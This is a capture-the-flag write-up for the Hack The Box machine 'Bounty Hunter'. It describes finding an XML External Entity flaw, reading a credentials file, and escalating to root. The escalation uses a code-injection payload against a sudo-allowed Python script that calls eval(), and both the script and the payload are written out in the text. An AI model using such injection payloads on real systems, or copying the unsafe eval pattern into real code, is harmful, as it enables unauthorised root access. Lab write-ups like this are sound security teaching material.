 # Bounty Hunter Writeup (Hack The Box) by [yag1n3](https://github.com/yaguine)

### objetives
* user flag
* root flag

---

## Basic Enumeration

### network

the ICMP TTL indicates that it's a Linux Machine  

![](./contents/screenshots/screenshot1.png)


the machines has just two open ports  

![](./contents/screenshots/screenshot2.png)


### web

there is a pretty interesting file at */resources/README.txt* that we download  
![](./contents/screenshots/screenshot3.png)

we find */portal.php* that leads us to */log_submit.php*  
![](./contents/screenshots/screenshot4.png)  

here we can see that the input we type in the checkboxes is being displayed on the page  
after some investigation, we confirm that our input is being sent in a **POST** request to */tracker_diRbPr00f314.php*  
but the data is not in plain text, but is base64+URLEncode  
when you uncode the text, you see that the data is our input in XML format  
is this vulnerable to **XML External Entity ??** lets try it !!  
![](./contents/screenshots/screenshot5.png)  
![](./contents/screenshots/screenshot6.png)  
ok, it works, we got an **XML External Entity** vulnerability !!

---

## User flag 

### exploiting XML External Entity

lets see if theres something interesting at *portal.php*  
![](./contents/screenshots/screenshot7.png)  
nothing !

now i remember...when we first did directory enumeration with **gobuster dir** there was a file called *db.php*  
lets try to read it  
![](./contents/screenshots/screenshot8.png) 
we got a password !!!  

we saw in */etc/passwd* that there was an user called "development"  
we try to login by ssh with the password from *db.php* and... it works !!  
we get our **user flag**

---

## Root Flag

as soon as we get in, we see a file called *contract.txt* in our home directory with the following content
![](./contents/screenshots/screenshot9.png)  
what tool is he talking about ?  
with `sudo -l` we find this :  
```bash
User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

we check the python script  
this script takes an *.md* file and checks if the syntax follows the guidelines of a "Valid Ticket"  
this is the most important part :
```python
def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False
```

as we can see, it is using the `eval()` function  
we find a ticket on the system that is "invalid"
```bash
# Skytrain Inc
## Ticket to Essex
__ticket code:__
**11+321+1**
##Issued: 2021/05/12
#End Ticket
```

if we change it this way the ticket is valid
```bash
# Skytrain Inc
## Ticket to Essex
__Ticket Code:__
**11+321+1**
##Issued: 2021/05/12
#End Ticket
```

the thing about this script is that it uses **eval()** on the 4th line(after removing the ** symbols)  
but to be able to get to the point where it uses the **eval()** function, the line has to start with `**11+`  
how do we acomplish this ?  

well, after trying a couple different payloads, i was able to make it work with this :
```bash
# Skytrain Inc
## Ticket to Essex
__Ticket Code:__
**11+321==__import__('os').system('/bin/bash')**
##Issued: 2021/05/12
#End Ticket
```

now we have a shell as Root and we can retrieve the last flag of the machine !!!

---

## Conclusions

i definitely had a lot of fun with this machine  
the first flag was fairly easy for me because the XML External Entity vulnerability was one of the first ideas i had when i saw the input being transformed into XML and was more about finding the right payload, even though i can understand that some people could fall into a rabbit hole trying to find some attack vector on the *portal.php* page  
the privilege scalation is totally obvious that the vulnerability is on the python script and that can take away some headaches while trying to investigate what's going on, but it can take you a while understanding how to crack it  



